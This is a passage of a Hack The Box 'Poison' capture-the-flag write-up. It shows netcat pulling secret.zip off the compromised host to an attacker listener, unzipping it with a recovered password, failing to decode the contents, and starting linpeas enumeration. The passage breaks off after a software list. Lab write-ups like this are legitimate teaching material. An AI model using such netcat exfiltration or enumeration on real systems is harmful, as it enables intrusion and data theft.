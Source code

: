 [root:/git/htb/poison]# nc -lp 4488 > secret.zip
charix@Poison:~ % nc -w 3 10.10.14.12 4488 < secret.zip
[root:/git/htb/poison]# 7z e secret.zip                                                                                           (master✱)

Scanning the drive for archives:
1 file, 166 bytes (1 KiB)

Extracting archive: secret.zip
--
Path = secret.zip
Type = zip
Physical Size = 166

Enter password (will not be echoed): Charix!2#4%6&8(0
Everything is Ok

Size:       8
Compressed: 166

[root:/git/htb/poison]# ls -al                                                                                                    (master✱)
--- snip ---
-r--r--r--  1 root root    8 Jan 24  2018 secret
[root:/git/htb/poison]# cat secret                                                                                                (master✱)
��[|Ֆz!#
[root:/git/htb/poison]# strings secret
[root:/git/htb/poison]# file -i secret                                                                                            (master✱)
secret: text/plain; charset=unknown-8bit
[root:/git/htb/poison]# file -b secret                                                                                            (master✱)
Non-ISO extended-ASCII text, with no line terminators

Opening the file in gui text editor and going to 'save as' says that the Character Encoding is 'Western (ISO-8859-15)'.
Change the encoding to UTF-8 and save as 'secret-utf8'.

[root:/git/htb/poison]# cat secret-utf8                                                                                           (master✱)
œš[|Õz!

[root:/git/htb/poison]# for i in $(cat result.txt | grep ok: | awk '{print $1}'); do                                              (master✱)
for> printf "writing $i to loop.out\n"
for> printf "\n$i: " >> loop.out
for> iconv -f $i -t UTF-8 secret >> loop.out
for> done

After looking through all data in loop.out, none of it makes sense. This is probably a rabbit hole.


2. Running linpeas.sh we find a few things that sticks out.

====================================( Available Software )====================================
[+] Useful software
--- snip ---
/usr/local/bin/xterm
